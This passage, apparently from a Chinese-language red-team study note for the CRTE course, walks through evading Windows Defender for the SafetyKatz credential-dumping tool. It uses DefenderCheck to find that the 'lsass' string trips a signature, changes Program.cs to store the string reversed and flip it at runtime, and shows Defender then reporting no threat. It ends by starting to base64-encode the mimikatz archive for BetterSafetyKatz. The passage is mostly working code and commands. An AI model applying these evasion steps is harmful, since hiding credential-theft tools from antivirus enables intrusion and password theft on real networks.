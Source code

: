 ```
000000A0   41 00 71 00 30 00 30 00  5A 00 4D 00 50 00 64 00   A·q·0·0·Z·M·P·d·
000000B0   32 00 73 00 5A 00 57 00  51 00 73 00 37 00 32 00   2·s·Z·W·Q·s·7·2·
000000C0   78 00 77 00 6E 00 77 00  54 00 57 00 77 00 4D 00   x·w·n·w·T·W·w·M·
000000D0   56 00 68 00 32 00 73 00  30 00 79 00 48 00 32 00   V·h·2·s·0·y·H·2·
000000E0   56 00 69 00 7A 00 45 00  37 00 73 00 2F 00 77 00   V·i·z·E·7·s·/·w·
000000F0   41 00 3D 00 00 0B 6C 00  73 00 61 00 73 00 73 00   A·=···l·s·a·s·s·
```

看起来是有一个lsass的字符串触发了签名

7. 修改Program.cs里的
```
 Process[] processes = Process.GetProcessesByName("lsass");
```

为：
```
string str = "ssasl";
 
string reverse = str.Reverse();
Process[] processes = Process.GetProcessesByName(reverse);
```

注意还需要在当前类外面添加代码
```
 public static class Extensions
    {
        public static string Reverse(this string str)
        {
            char[] chars = str.ToCharArray();
            Array.Reverse(chars);
            return new string(chars);
        }
    }
```

保存。重新生成exe

8. 再次检查,已经可以绕过wd
```
D:\BaiduNetdiskDownload\CRTE\Tools>DefenderCheck.exe D:\BaiduNetdiskDownload\CRTE\Tools\SafetyKatz-master\SafetyKatz\bin\Debug\SafetyKatz.exe

OriginalFileDetectionStatus is : NoThreatFound
[+] No threat found in submitted file!

```

## 例子3，BetterSafetyKatz

教材上的方法是：
1. 把mimikatz的zip转化成base64
```
PS E:\BaiduNetdiskDownload\CRTE\Tools> $filename = "E:\BaiduNetdiskDownload\CRTE\Tools\mimikatz_trunk.zip"
PS E:\BaiduNetdiskDownload\CRTE\Tools> [Convert]::ToBase64String([io.file]::ReadAllBytes($filename)) > o.txt
```
